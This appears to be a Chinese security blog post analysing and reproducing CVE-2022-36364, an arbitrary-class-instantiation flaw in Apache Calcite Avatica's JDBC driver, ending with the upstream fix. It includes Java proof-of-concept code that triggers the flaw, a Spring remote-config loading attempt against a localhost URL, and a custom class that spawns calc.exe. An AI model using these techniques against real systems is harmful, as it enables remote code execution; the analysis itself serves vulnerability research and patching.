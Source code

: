 #  Apache Calcite Avatica 远程代码执行 CVE-2022-36364   
原创 标准云  蚁景网络安全   2025-02-08 09:31  
  
前段时间看到Apache Calcite Avatica远程代码执行漏洞 CVE-2022-36364 在网上搜索也没有找到相关的分析和复现文章，于是想着自己研究一下，看能不能发现可以利用的方法。  
  
首先利用一下最近比较热门的 Deepseek ，询问他是否清楚漏洞相关的信息。  
  
![image](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldwadTmCI6Db72o5TibNjjYhXibhGE28QZtStibViaQcy8XE4rCiawI9Liac7vgNoCibREU9XjaS2pJnM5lSw/640?wx_fmt=other&from=appmsg "")  
  
![image](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldwadTmCI6Db72o5TibNjjYhXjN3ic80suPGz4kqmWEKnKe05zWvYUSFe0O3uXkx9eWs0jNh2FnYJ5QA/640?wx_fmt=other&from=appmsg "")  
  
通过回答我们可以了解到这个漏洞的概况，具体漏洞的版本，以及漏洞产生的原因。  
## 漏洞简介  
  
Apache Calcite Avatica JDBC 驱动程序根据通过 httpclient_impl 连接属性提供的类名来创建 HTTP 客户端实例；但是在驱动程序实例化之前不会验证该类是否实现了预期的接口，这样一来就会导致可以通过调用任意类来执行代码。  
  
执行这个漏洞并造成一定的危害性，还需要两个先决条件：  
- 必须拥有控制 JDBC 连接参数的权限  
  
- 类路径中有一个具有 URL 参数和执行代码能力的函数（目前需要自己构造）  
  
## 漏洞复现&分析  
  
简单点，通过 maven 来创建漏洞环境  
```
        <!-- https://mvnrepository.com/artifact/org.apache.calcite.avatica/avatica -->
        <dependency>
            <groupId>org.apache.calcite.avatica</groupId>
            <artifactId>avatica</artifactId>
            <version>1.21.0</version>
        </dependency>
```  
  
创建完成漏洞环境后，我们就需要来编写一段代码想办法触发这个漏洞，我个人的建议是通过对比代码补丁，一般来说修复完成代码后，总会写一个测试类来进行测试  
  
![image](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldwadTmCI6Db72o5TibNjjYhXibAJCK7wOoNFJw5QFbrcucMxp4uPXVficqWaKadp1jQlZhk9ncpOzcQw/640?wx_fmt=other&from=appmsg "")  
```
import org.apache.calcite.avatica.BuiltInConnectionProperty;
import org.apache.calcite.avatica.ConnectionConfig;
import org.apache.calcite.avatica.ConnectionConfigImpl;
import org.apache.calcite.avatica.remote.AvaticaHttpClient;
import org.apache.calcite.avatica.remote.AvaticaHttpClientFactory;
import org.apache.calcite.avatica.remote.AvaticaHttpClientFactoryImpl;
import java.net.URL;
import java.util.Properties;

public class test {
    public static void main(String[] args) throws Exception {
        Properties props = new Properties();
        props.setProperty(BuiltInConnectionProperty.HTTP_CLIENT_IMPL.name(),"className");
        URL url = new URL("url");
        ConnectionConfig config = new ConnectionConfigImpl(props);
        AvaticaHttpClientFactory httpClientFactory = new AvaticaHttpClientFactoryImpl();
        AvaticaHttpClient client = httpClientFactory.getClient(url, config, null);
    }
}
```  
  
这样一来我们就编写了一个漏洞 Demo  calssName 和 url 的值是我们可以操作控制的，我们进行调试分析一下  
  
![image](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldwadTmCI6Db72o5TibNjjYhX5KQ5g2zvWQRa4JYnFgxviaM31T8RFufj7a1tic9mia5sj8DCP2gonKGxA/640?wx_fmt=other&from=appmsg "")  
  
org.apache.calcite.avatica.remote.AvaticaHttpClientFactoryImpl#getClient  
  
![image](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldwadTmCI6Db72o5TibNjjYhXn7q3YoQ7q04wMicw2ScxgGkk9yzmfFaKyRvsQP7zGJ6yQV03ibxf6EAQ/640?wx_fmt=other&from=appmsg "")  
  
这个地方我们就注意到了最后调用 instantiateClient 来处理的两个参数 className 和 url 一个来自于直接传参，另一个来自于 config.httpClientClass() 会从 config 对象中获取 HTTP 客户端的实现类名称，并将其作为一个 String 返回  
  
![image](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldwadTmCI6Db72o5TibNjjYhX41t6dEKPYltH9G6GyrOZb5021nsvbicq8OJax8BRTQwntr4slQ99FUw/640?wx_fmt=other&from=appmsg "")  
  
‍  
  
所以当参数传入到 org.apache.calcite.avatica.remote.AvaticaHttpClientFactoryImpl#instantiateClient 其中的两个参数 className 和 url 都是我们可以控制的  
  
![image](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldwadTmCI6Db72o5TibNjjYhXpmFLW1L15MLMdrQzk4ZUDd2J6xUGQ7TGFyzHbpMkjSPeUomvxnJtJA/640?wx_fmt=other&from=appmsg "")  
  
不需要向下继续调试，我们就看到了关键代码 constructor.newInstance(Objects.requireNonNull(url));  
  
这样一来我们就可以通过控制 className 和 url 来实现调用任意类，但是这个类的必须有 URL 参数的处理  
  
刚开始想到的方法是  
  
利用 spring 中的类构造函数加载远程配置实现 RCE  
- org.springframework.context.support.ClassPathXmlApplicationContext  
  
```
import org.springframework.context.support.ClassPathXmlApplicationContext;
public class JXpathDemo {
    public static void main(String[] args) {

        String s = "http://127.0.0.1:8080/bean.xml";
        ClassPathXmlApplicationContext context = new ClassPathXmlApplicationContext(s);
    }
}
```  
  
似乎如此一来就满足了条件，我们先试试  
  
![image](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldwadTmCI6Db72o5TibNjjYhXVpUoiab27wK5ZdXiblp1P8Wo7EqJZtF4WQTx2HcGvkL71EkNxzZIRg9Q/640?wx_fmt=other&from=appmsg "")  
  
爆出了一个错误，我们注意到 lassPathXmlApplicationContext 类没有接收 java.net.URL 参数的构造方法。ClassPathXmlApplicationContext 类的构造方法接收的是 String 类型的路径，通常是用于加载 Spring 配置文件的路径。  
  
![image](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldwadTmCI6Db72o5TibNjjYhX455WfGNva0xEg2l9yjwf0eCVp1KLJJG1YianGqICZiaxPTuqDrppJ1VQ/640?wx_fmt=other&from=appmsg "")  
  
所以这种利用方式适用于很多种情况 Apache Commons JXPath 远程代码执行、PostgresQL JDBC Driver 任意代码执行 等，但是并不适配当前的环境。(目前还没有找到合适的类来触发利用这种漏洞)  
  
为了进一步体现危害性，我自己创建一个类来体现  
```
import java.net.URL;

public class CustomHttpClient {
    private URL url;

    // 构造函数，接受一个 URL 类型的参数
    public CustomHttpClient(URL url) throws Exception {
        Runtime.getRuntime().exec("calc.exe");
    }
}


```  
  
![7](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldwadTmCI6Db72o5TibNjjYhXqNBJcPnMW5152p7ic6hz3gbImic28LQ8Q0DF8IaHiaUX0LRheyy3LbF3g/640?wx_fmt=other&from=appmsg "")  
## 漏洞修复  
  
通过对比我们发现对传入的类进行了控制，限定必须属于AvaticaHttpClient 的子类  
  
https://github.com/apache/calcite-avatica/commit/0c097b6a685fc1f97f151505a219976f15ed0c4c?diff=split&w=0  
  
![image](https://mmbiz.qpic.cn/mmbiz_jpg/5znJiaZxqldwadTmCI6Db72o5TibNjjYhXcjkmK3RuMOSU4CQWNjySXZ3iatQfgNI5mhZyANHA2srbUt92EJtgWaA/640?wx_fmt=other&from=appmsg "")  
  
[](https://mp.weixin.qq.com/s?__biz=MzkxNTIwNTkyNg==&mid=2247549615&idx=1&sn=5de0fec4a85adc4c45c6864eec2c5c56&scene=21#wechat_redirect)  
  
  
  
